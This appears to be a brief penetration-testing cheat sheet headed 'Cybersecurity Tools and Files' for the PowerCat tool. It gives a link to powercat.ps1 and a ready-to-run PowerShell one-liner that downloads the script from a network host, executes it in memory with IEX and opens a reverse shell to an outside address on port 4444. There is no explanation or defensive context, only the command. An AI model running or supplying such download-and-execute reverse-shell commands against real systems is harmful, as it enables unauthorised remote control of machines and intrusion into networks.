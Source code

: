 # Cybersecurity Tools and Files

PowerCat

```bash
[https://raw.githubusercontent.com/voidascent/sec/main/powercat.ps1](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1)
```

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```
